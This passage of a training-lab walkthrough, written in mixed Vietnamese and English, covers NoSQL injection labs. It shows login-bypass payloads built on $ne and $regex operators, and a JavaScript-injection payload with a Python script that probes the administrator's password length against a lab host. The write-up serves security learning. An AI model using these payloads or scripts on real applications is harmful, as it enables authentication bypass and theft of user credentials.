 ```username=admin&password=123```

  - Change the value of the username from ```{"$ne":""}``` to ```{"$regex":"wien.*}```, then send the request:

![alt text](./img/lab2-3.png)

- With username ```{"$ne":""}```, change the value of password from ```"peter"``` to ```{"$ne":""}```:

![alt text](./img/lab2-4.png)


==>This cause the query to return an unexpected number of records.

(Indicate that more than one user has been selected)

![alt text](./img/lab2-5.png)

==>We solve this lab.


## Lab: Exploiting NoSQL injection to extract data

**END goals**: Extract the password for the administrator user, then log in to their account.

- Sau khi log in vào website, ta thấy 1 gói tin ```GET``` chứa js khá khả nghi:

![alt text](./img/lab3-1.png)

 ==>Đoạn code này đọc tham số id từ URL và gửi request tới endpoint ```/user/lookup?user=<id>```

Sau đó nhận lại object dạng ```JSON``` (user infor)

==>Tìm gói tin POST tới endpoint ```/user/lookup...```

![alt text](./img/lab3-2.png)

- Thử đổi user thành administrator sau đó gửi lại tin:

![alt text](./img/lab3-3.png)

==>Hiện các thông tin về admin, giờ ta cần là tìm xem password của admin là gì.

- Xác định độ dài password with payload:

```GET /user/lookup?user=administrator'+%26%26+this.password.length+<+50%00```

![alt text](./img/lab3-4.png)

- Script để lấy password length:

```python
import requests
baseurl = "https://0af6002a04d65f4a80af4e2c0019008d.web-security-academy.net"
cookies = {"session": "rTjetHn3Ds9gzq3biYGjAKbGjWhF1y9b"}
for length in range(1, 50):
    payload = f"administrator'+%26%26+this.password.length=={length}%00"
    url = f"{baseurl}/user/lookup?user={payload}"
    r = requests.get(url, cookies=cookies)
    if "administrator" in r.text:
        print(f"[+] Password length is: {length}")
        break
    
```
